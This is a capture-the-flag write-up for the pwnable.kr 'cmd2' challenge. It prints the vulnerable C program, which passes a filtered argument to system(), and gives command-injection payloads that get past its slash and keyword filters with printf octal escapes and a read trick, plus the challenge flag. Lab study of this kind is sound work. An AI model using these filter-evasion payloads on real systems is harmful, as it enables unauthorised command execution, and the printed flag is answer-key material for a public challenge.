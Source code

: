 ```yaml
---
title: "Pwnable.kr - cmd2"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/cmd2.png
ribbon: red
description: "This challenge has more restrictions, the biggest one is filtering forward slash `/`, this will prevent us from executing any binary the usual way like this `/bin/binary`. The only solution that worked with me is passing the octal value of `/` (57) to printf with format string..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Daddy bought me a system command shell.
> but he put some filters to prevent me from playing with it without his permission...
> but I wanna play anytime I want!



```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	printf("before:   %s\n", argv[1]);
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

This challenge has more restrictions, the biggest one is filtering forward slash `/`, this will prevent us from executing any binary the usual way like this `/bin/binary`.

The only solution that worked with me is passing the octal value of `/` (57) to printf with format string `%b`. 

# Solution:

```
cmd2@pwnable:~$ ./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag")'
```

```
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'	# not my solution but it's very cool
/bin/cat flag
```

Flag: `FuN_w1th_5h3ll_v4riabl3s_haha`